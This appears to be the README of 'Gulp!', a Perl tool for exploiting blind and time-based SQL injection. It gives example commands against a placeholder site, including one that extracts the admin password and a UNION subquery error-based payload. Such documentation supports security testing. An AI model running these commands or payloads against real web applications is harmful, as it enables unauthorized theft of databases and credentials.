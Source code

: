 # Gulp! A Blind SQL Injection Exploiter

This is a small script I wrote to help investigating security vulnerabilities
in web applications. Code isn't perfect (quite hacked together if you ask me)
but it's quite functional and served me good when I was too lazy to find out how
to use similar tool in the wild and wrote one myself instead. It supports various
DBMS, most notably MySQL, and can exploit Blind SQL Injection by inspecting different
server responses. For completely blind SQL Injections Gulp! also support MySQL time-based
BENCHMARK attack. You can use Gulp! to dump every data you need, provided you know what
you are doing! Oh, and it's multithread too, just don't kill your target!

## Examples

```bash
./gulp -p "http://www.target.com/target_page.php" -r database() -g "<title>(.*)Logged In(.*)</title>" -q "action=Login&injectable_parameter=<{SQLi}>"
```

This command executes multiple GET requests to the target page injecting some SQL tricky code to perform simple binary checks and recovering the data you specified with the -r parameter (the name of the database in this example) one character at a time. Successfull
requests are determined by looking at the server response and searching for a specific string (or regular expression) given by the -g parameter. You need to specify the complete query string with the needed HTTP parameters. By adding the special placeholder string *<{SQLi}>* you set the place in your requests where Gulp! will insert its magic SQL code.

You can specify every valid SQL expression with the -r parameter as in the next example.

```bash
./gulp -p "http://www.target.com/target_page.php" -r "(SELECT password FROM users where username = 'admin')" -g "<title>(.*)Logged In(.*)</title>" -q "action=Login&injectable_parameter=<{SQLi}>"
```

Sometimes (always?) you will need to tweak the injected string to successfully exploit a vulnerability. Gulp! cannot do this by itself but you can always take advantage of the features of Gulp! moving the *<{SQLi}>* placeholder to fit your needs. This can be extremely effective but it will need some knowledge of SQL and SQL Injection attacks. This is a more complex example:

```bash
./gulp -p "http://www.target.com/target_page.php" -r "(SELECT password FROM users where username = 'admin')" -g "error" -q "action=Login&injectable_parameter=1 AND 1=(SELECT 1 FROM table UNION SELECT 2 from table WHERE 1=0 WHERE 1>0 <{SQLi}>)"
```

This is a classic attack pattern trying to generate a MySQL runtime error when the subquery returns more than one record. In fact if the condition injected by Gulp! on the second part of the UNION query is TRUE MySQL will produce an error and that's is the reason we are looking into the server output for the string "error".

## Features
- Multithread
- Supports MySQL, Access, PostegreSQL, Oracle Database
- Blind SQL Injection exploitation
- Time-based SQL injection exploitation (MySQL only)
- Multiplatform (tested in Linux and Windows)
- HTTP Proxy support

## Requirements

Bein a PERL script Gulp! requires Perl (of course). I recommend PERL >= 5.8, older
versions are not supported or tested. As usual there are also some dependencies to fulfill. Here the list of packages you will need. Just grab them from CPAN!

```perl
use HTTP::Request::Common;
use LWP::UserAgent;
use POSIX;
use Options;
use CGI::Enurl;
use URI;
```


## Further help

For further help you can issue this command on your favourite shell and look at all the options Gulp! offers.

```bash
./gulp -h
```

## TODO
- automatic iteration through multiple rows
- time-based: dynamically changing the required time for TRUE and FALSE requests to balance changes in the server workload
- character range prediction ( maybe )
- config file support

## Known Issues/Behaviour
- Doesn't support HTTPS
- You can't specify empty POST parameters.
- You can't use the characters "&" or "=" in your request content ( query parameter ) if you use POST method, you must urlencode them FIRST.
- When redirecting the received Set-Cookie header is used to set a Cookie header

## Disclaimer

Software is provided as is. You can use it as you wish, just be cool. You can also submit pull requests so we can make enhance Gulp!